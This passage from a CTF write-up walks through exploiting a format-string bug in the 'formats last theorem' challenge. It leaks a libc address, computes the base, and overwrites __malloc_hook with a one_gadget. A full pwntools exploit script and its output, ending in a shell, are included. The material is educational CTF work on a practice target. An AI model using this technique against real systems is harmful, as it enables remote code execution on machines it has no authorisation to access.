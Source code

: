 So, in order to exploit this binary, we first needed a LIBC leak to determine the base address of LIBC so that we will be able to determine the __malloc_hook and one_gadget address. Surprisingly, one of the LIBC address at the offset of 2, which I used to get the base address of the LIBC, then using the pwntools fmtstr_payload to write 2 bytes at a time.

```py

from pwn import *

#p = process("./formats_the_theorem")
context.arch = "amd64"
p = remote("dctf-chall-formats-last-theorem.westeurope.azurecontainer.io", 7482)
libc = ELF("libc.so.6")
p.recvline()
p.sendline("%2$p")
p.recvline()
libc.address = int(p.recvline().strip(), 16) - 0x3ed8c0
log.info("LIBC:  0x%x" %(libc.address))
one_gadget = libc.address + 0x4f432
malloc_hook = libc.sym["__malloc_hook"]
target = one_gadget
addr = malloc_hook
count = 0
while target:
    payload = fmtstr_payload(6, {addr: target & 0xffff}, write_size='short')
    p.sendline(payload)
    addr += 2
    target >>= 16

    count += 1
p.sendline("%66000c")
p.interactive()
```
Running the exploit:-

```asm
❯ python3 formats_the_theorem.py
[+] Opening connection to dctf-chall-formats-last-theorem.westeurope.azurecontainer.io on port 7482: Done
[*] '/home/d4mianwayne/Pwning/CTFs/ductf/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] LIBC:  0x7f483a4b2000
[*] Switching to interactive mode

I won't ask you, what your name is. It's getting kinda old at this point
you entered

[..snip..]

I won't ask you, what your name is. It's getting kinda old at this point
you entered

[..snip..]

I won't ask you, what your name is. It's getting kinda old at this point
you entered

[..snip..]

$ id
uid=1000(pilot) gid=1000(pilot) groups=1000(pilot)
```